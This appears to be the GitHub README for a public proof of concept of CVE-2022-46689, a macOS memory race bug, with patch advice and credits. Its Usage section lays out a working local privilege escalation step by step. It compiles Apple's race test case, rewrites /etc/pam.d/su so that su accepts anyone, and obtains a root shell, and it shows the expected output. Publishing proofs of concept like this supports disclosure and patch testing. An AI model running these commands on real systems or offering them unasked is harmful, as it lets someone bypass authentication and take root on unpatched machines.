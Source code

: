 ```yaml
---
title: Get root on macOS 13.0.1 with CVE-2022-46689, the macOS Dirty Cow bug
categories: macos
permalink: /macdirtycow/
---
```


Get root on macOS 13.0.1 with [CVE-2022-46689](https://support.apple.com/en-us/HT213532) (macOS equivalent of the Dirty Cow bug), using the testcase extracted from [Apple's XNU source](https://github.com/apple-oss-distributions/xnu/blob/xnu-8792.61.2/tests/vm/vm_unaligned_copy_switch_race.c).

## Usage

On a macOS 13.0.1 / 12.6.1 (or below) machine, clone the extracted test case:

git clone [https://github.com/zhuowei/MacDirtyCowDemo](https://github.com/zhuowei/MacDirtyCowDemo)

Then run:

```
clang -o switcharoo vm_unaligned_copy_switch_race.c
sed -e "s/rootok/permit/g" /etc/pam.d/su > overwrite_file.bin
./switcharoo /etc/pam.d/su overwrite_file.bin
su
```

You should get:

```
% ./switcharoo /etc/pam.d/su overwrite_file.bin
Testing for 10 seconds...
RO mapping was modified
% su
sh-3.2# 
```

Tested on macOS 13 beta (22A5266r) with SIP off (it should still work with SIP on).

If your system is fully patched (macOS 13.1 / 12.6.2), it should instead read:

```
$ ./switcharoo /etc/pam.d/su overwrite_file.bin
Testing for 10 seconds...
vm_read_overwrite: KERN_SUCCESS:9865 KERN_PROTECTION_FAILURE:3840 other:0
Ran 13705 times in 10 seconds with no failure
```

and running `su` should still ask for a password.

Thanks to Sealed System Volume, running this on any file on the `/System` volume only modifies the file temporarily: It's reverted on reboot. Running it on a file on a writeable volume will preserve the modification after a reboot.

## Should I be worried?

If you installed the latest macOS update (macOS 13.1 / 12.6.2 / 11.7.2), you should be fine.

If you haven't, do it now.

## Will this be useful for jailbreak?

Probably not.

This - as far as I can tell - affects userspace processes only. Jailbreaks require a kernel exploit. (The Apple Security release notes says that this bug may allow "arbitrary code with kernel privileges", but I can't see how.)

You might still do something cool on iOS with this, but I'm not sure what you'd overwrite: codesigning should protect all executables and libraries. (I have not tested this: let me know if you find anything!)

## Credits

- Ian Beer of [Project Zero](https://googleprojectzero.blogspot.com/) for finding the issue. Looking forward to your [blog post about the XNU memory subsystem](https://bugs.chromium.org/p/project-zero/issues/detail?id=2337#c3)!
- Apple for the [test case](https://github.com/apple-oss-distributions/xnu/blob/xnu-8792.61.2/tests/vm/vm_unaligned_copy_switch_race.c). (I didn't change anything: I just added the command line parameter to control what to overwrite.)
- [SSLab@Gatech](https://gts3.org/assets/papers/2020/jin:pwn2own2020-safari-slides.pdf) for the trick to disable password checking using `/etc/pam.d`.
- [@WangTielei](https://twitter.com/WangTielei/status/1603963997618855937) for sharing a related issue and answering my questions.